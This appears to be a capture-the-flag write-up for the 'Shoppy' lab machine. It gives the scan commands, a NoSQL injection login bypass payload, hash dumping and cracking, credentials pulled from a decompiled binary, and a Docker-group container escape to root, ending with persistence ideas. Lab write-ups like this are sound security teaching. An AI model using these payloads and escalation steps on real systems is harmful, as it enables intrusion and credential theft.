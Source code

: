 # Shoppy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 14:12 EDT
Nmap scan report for 10.129.227.233
Host is up (0.0063s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```

We have to add `shoppy.htb` to our `/etc/hosts` file.&#x20;

### HTTP

Port 80 reveals a count down to the release of a website.

<figure><img src="../../../.gitbook/assets/image (2643).png" alt=""><figcaption></figcaption></figure>

Doing a `gobuster` scan reveals a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://shoppy.htb -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/06 14:14:56 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/js                   (Status: 301) [Size: 171] [--> /js/]
```

There's a login page.&#x20;

<figure><img src="../../../.gitbook/assets/image (2180).png" alt=""><figcaption></figcaption></figure>

I tested SQL Injection, but it didn't seem to work. We can still fuzz subdomains using `wfuzz`, and I did find one:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.shoppy.htb' --hw=11 -u http://shoppy.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

### Mattermost

The sub-domain brought me to another login page.

<figure><img src="../../../.gitbook/assets/image (2272).png" alt=""><figcaption></figcaption></figure>

Directory scanning and searching for public exploits returned nothing useful, so let's come back to this later.&#x20;

### NoSQL Injection

On the main `shoppy.htb` website, I tried NoSQL Injection using both regular HTTP parameters and JSON. I was able to bypass it using this:

```
username=admin'||'1=1&password=pass
```

<figure><img src="../../../.gitbook/assets/image (2556).png" alt=""><figcaption></figcaption></figure>

With this, we can login to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (1160).png" alt=""><figcaption></figcaption></figure>

There was a Search for Users function, and since this application is already vulnerable to NoSQL Injection, we can use a similar payload to see what we get:

```
'||'1=1
```

Then we can download the export to see some credentials:

<figure><img src="../../../.gitbook/assets/image (1725).png" alt=""><figcaption></figcaption></figure>

The hash for `josh` cracks.

<figure><img src="../../../.gitbook/assets/image (1526).png" alt=""><figcaption></figcaption></figure>

Using that, we can login to Mattermost and see that there are credentials on the screen!

<figure><img src="../../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

We can use this to `ssh` in as the user.

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Manager RE

As this user, we can run a command using `sudo` as `deploy`.

```
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

When run, it prompts us for a password, and I tried to reuse both of the passwords we found earlier but it doesn't work.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: remembermethisway
Access denied! This incident will be reported !
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

We can transfer this back to my machine and decompile it with `ghidra`. When opened, we can see the master password it is compared to.

<figure><img src="../../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>

We can use this to get the real password:

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

We can then `su` to `deploy`.&#x20;

### Docker Group

As this new user, we are part of the `docker` group.

```
deploy@shoppy:/tmp$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

We can use this to create a new container that has access to the filesystem of the machine, and make ourselves `root` of the container. This effectively gives us `root` access over the files of the main machine too.&#x20;

```
deploy@shoppy:/tmp$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   9 months ago   5.53MB
deploy@shoppy:/tmp$ docker run --rm -it -v /:/mnt alpine /bin/sh
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

With this, we can go to `/mnt/root/root.txt` to read the root flag. We can also drop our public SSH key into the `authorized_keys` file or make `/bin/bash` an SUID binary.&#x20;

<figure><img src="../../../.gitbook/assets/image (4065).png" alt=""><figcaption></figcaption></figure>
